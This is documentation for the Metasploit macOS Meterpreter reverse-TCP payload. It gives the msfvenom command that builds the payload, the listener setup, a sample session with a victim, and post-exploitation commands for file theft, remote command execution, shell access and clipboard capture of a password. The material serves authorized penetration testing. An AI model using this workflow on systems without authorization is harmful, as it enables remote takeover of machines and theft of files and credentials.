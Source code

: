 osx/x64/meterpreter_reverse_tcp is similar to the linux meterpreter, but built for OSX.
It allows you to remotely take over the compromised system, having control of the file system,
webcam, microphone, screenshot and collect sensitive information such as credentials
using post modules, etc.

## Vulnerable Application

osx/x64/meterpreter_reverse_tcp 64-bit MacOSX platforms from 10.8 onwards.

## Deploying osx/x64/meterpreter_reverse_tcp

To use osx/x64/meterpreter_reverse_tcp as an executable, first you can generate it with msfvenom:

```
./msfvenom -p osx/x64/meterpreter_reverse_tcp LHOST=[IP] LPORT=4444 -f macho -o /tmp/payload.bin
```

Before sending the executable to the victim machine, you need to set up the handler on your end:

1. Start msfconsole
2. Do: ```use exploit/multi/handler```
3. Do: ```set PAYLOAD osx/x64/meterpreter_reverse_tcp```
4. Do: ```set LHOST [Your IP]```
5. Do: ```run```

And that should start the listener. When the victim runs the malicious executable, you should
receive a session:

```
msf exploit(handler) > run
[*] Exploit running as background job.

[*] Started reverse TCP handler on 172.16.23.1:4444 
msf exploit(handler) > [*] Meterpreter session 1 opened (172.16.23.1:4444 -> 172.16.23.182:45009) at 2017-08-08 12:34:49 +0800

msf exploit(handler) > sessions 1
[*] Starting interaction with 1...

meterpreter >
```


## Important Basic Commands

Here is a list of some of the common commands you might need while using Meterpreter:

**pwd**

The ```pwd``` command tells you the current working directory. For example:

```
meterpreter > pwd
/Users/User/Desktop
```

**cd**

The ```cd``` command allows you to change directories. Example:

```
meterpreter > cd /tmp
```

**cat**

The ```cat``` command allows you to see the content of a file:

```
meterpreter > cat /tmp/data.txt
hello world
```

**upload**

The ```upload``` command allows you to upload a file to the remote target. For example:

```
meterpreter > upload /tmp/data.bin /Users/User/Desktop
[*] uploading  : /tmp/data.bin -> /Users/User/Desktop
[*] uploaded   : /tmp/data.bin -> /Users/User/Desktop/data.bin
meterpreter > 
```

**download**

The ```download``` command allows you to download a file from the remote target to your machine. For example:

```
meterpreter > download /Users/User/Desktop/data.bin /tmp
[*] downloading: /Users/User/Desktop/data.bin -> /tmp/data.bin
[*] download   : /Users/User/Desktop/data.bin -> /tmp/data.bin
```

**ifconfig/ipconfig**

```ifconfig``` and ```ipconfig``` are actually the same thing. They allow you to see the network
interfaces on the remote machine.

**getuid**

The ```getuid``` command tells you the current user that Meterpreter is running on. For example:

```
meterpreter > getuid
Server username: uid=502, gid=20, euid=502, egid=20
```

**execute**

The ```execute``` command allows you to execute a command or file on the remote machine.
For example:

```
meterpreter > execute -f echo -a "hello > /tmp/hello.txt"
Process 5292 created.
```

**ps**

The ```ps``` command lists the running processes on the remote machine.

**shell**

The ```shell``` command allows you to interact with the remote machine's terminal (or shell). For
example:

```
meterpreter > shell
Process 29335 created.
Channel 2 created.
cat /tmp/hello.txt
hello
exit
meterpreter >
```

If you wish to get back to Meterpreter, do [CTRL]+[Z] to background the channel or
[CTRL]+[Z] then y (or the exit command) to terminate the channel.

**sysinfo**

The ```sysinfo``` command shows you basic information about the remote machine. Such as:

* Computer name
* OS name
* Architecture
* Meterpreter type

For example:

```
meterpreter > sysinfo
Computer     : My-Computer.local
OS           : Mac OS X Sierra (MacOSX 10.12.6)
Architecture : x86
Meterpreter  : x64/osx
meterpreter > 
```

**Extensions**

OSX Meterpreter supports reading and writing to the clipboard with the extapi extension, 
you can load it with the ```load``` command:

```
meterpreter > load extapi
Loading extension extapi...Success.
meterpreter > clipboard_get_data
Text captured at
=================
pa$$w0rd
=================
```

**Other commands**

For a complete list of OSX Meterpreter commands, do the following at the prompt:

```
meterpreter > help
```



